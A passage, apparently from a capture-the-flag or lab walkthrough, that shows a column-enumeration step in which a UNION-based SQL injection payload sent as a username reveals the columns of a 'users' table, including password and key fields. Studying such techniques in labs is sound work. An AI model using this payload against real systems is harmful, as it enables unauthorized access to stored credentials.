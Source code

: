 ![](images/Pasted%20image%2020220216171928.png)

### Column Enumeration - `users`

The username `tgihf') UNION SELECT DATA_TYPE,NULL,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'users';--` reveals `db.users`' columns. There are eight: `created_at`, `email`, `id`, `key`, `name`, `password`, `role`, and `updated_at`.

![](images/Pasted%20image%2020220216170135.png)
